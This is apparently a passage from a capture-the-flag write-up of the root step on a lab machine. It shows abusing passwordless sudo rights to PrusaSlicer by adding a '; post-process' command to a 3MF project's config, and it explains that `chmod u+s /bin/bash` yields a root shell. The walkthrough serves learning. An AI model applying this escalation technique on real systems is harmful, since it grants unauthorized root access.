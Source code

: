 ## ROAD TO ROOT
---
As always, upon accessing a new user, we run `sudo -l` and notice that we can execute **PrusaSlicer** as root.

**PrusaSlicer** is an open-source slicing software for 3D printing, used to convert 3D models into G-code instructions for printers. Since it provides a graphical interface and allows executing scripts, it could be leveraged for privilege escalation

````bash
james@trickster:/tmp$ su adam
Password: 
adam@trickster:/tmp$ sudo -l
Matching Defaults entries for adam on trickster:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User adam may run the following commands on trickster:
    (ALL) NOPASSWD: /opt/PrusaSlicer/prusaslicer
````

The first thing we do is check the version. After that, we search for potential exploits and find this  <a href="https://www.exploit-db.com/exploits/51983">one</a>

````bash
adam@trickster:/opt/PrusaSlicer$ sudo /opt/PrusaSlicer/prusaslicer -v
Unknown option --v

PrusaSlicer-2.6.1+linux-x64-GTK2-202309060801 based on Slic3r (with GUI support)
https://github.com/prusa3d/PrusaSlicer
````

````bash
TRICKSTER.3mf
adam@trickster:/tmp/.w$ unzip TRICKSTER.3mf
Archive:  TRICKSTER.3mf
  inflating: [Content_Types].xml     
  inflating: Metadata/thumbnail.png  
  inflating: _rels/.rels             
  inflating: 3D/3dmodel.model        
  inflating: Metadata/Slic3r_PE.config  
  inflating: Metadata/Slic3r_PE_model.config  

adam@trickster:/tmp/.w$ nano Metadata/Slic3r_PE.config
````

"We will transfer **trickster.3mf** to our machine, and after extracting it, we will modify the `Slic3r_PE.config` file by adding `; post-process` followed by our command.

What does `chmod u+s /bin/bash` do?

The `chmod u+s` command sets the **SUID (Set User ID)** bit on `/bin/bash`, meaning that whenever **bash** is executed, it runs with the privileges of its owner (which in this case is **root**). This allows a lower-privileged user to execute `bash` with root privileges, effectively leading to **full privilege escalation**.

